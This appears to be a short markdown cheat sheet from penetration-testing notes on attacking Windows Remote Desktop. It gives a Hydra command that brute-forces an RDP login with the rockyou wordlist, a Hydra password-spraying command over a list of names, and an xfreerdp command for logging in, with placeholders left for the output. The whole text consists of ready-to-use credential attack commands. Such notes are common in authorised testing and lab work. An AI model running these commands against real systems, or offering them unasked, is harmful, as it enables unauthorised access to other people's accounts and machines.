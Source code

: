 # Hydra (RDP Brute Force)
```bash
hydra -l $USERNAME -P /usr/share/wordlists/rockyou.txt rdp://$IP_ADDRESS:$PORT -t 4 -V
```
```
<insert hydra output here>
```
# Password Spraying (if there’s a known password)
```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "$PASSWORD" rdp://$IP_ADDRESS
```
```
<insert hydra output here>
```
# Connecting to RDP
```bash
xfreerdp /u:[USERNAME] /p:[PASSWORD] /v:[WINDOWS IP]
```
